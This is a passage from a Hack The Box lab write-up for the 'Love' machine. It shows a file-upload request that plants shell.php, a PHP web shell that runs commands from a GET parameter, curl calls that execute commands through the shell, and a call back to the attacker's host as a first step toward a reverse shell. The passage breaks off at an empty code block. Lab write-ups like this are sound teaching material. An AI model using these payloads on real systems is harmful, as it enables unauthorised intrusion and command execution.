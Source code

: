 ```bash
Referer: http://love.htb/admin/candidates.php
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo exec("whoami"); ?>

------WebKitFormBoundaryrmynB2CmGO6vwFpO
Content-Disposition: form-data; name="add"
```
After executing this payload, as stated in:
> Your upload will be stored at /images/ and is also accessible without authentication.

We can access to `/images/shell.php` and check the resutls:
![](img/2022-06-02-00-51-23.png)
Success! Now we can write a web shell and upload it with the following payload:
```php
<?php echo exec($_GET['cmd']); ?>
```
And if we test this shell:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=whoami"
love\phoebe
```
Did it. Let's try to establish a reverse shell:
```bash
❯ curl "http://love.htb/images/shell.php?cmd=curl%20http://10.10.16.5"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="Enum/">Enum/</a></li>
<li><a href="Exploits/">Exploits/</a></li>
<li><a href="img/">img/</a></li>
<li><a href="Love.md">Love.md</a></li>
<li><a href="Results/">Results/</a></li>
</ul>
<hr>
</body>
</html>
```
As we can see, while hosting a python server, we could access to the server, let's try a conventional reverse shell to port 3333:
```bash
```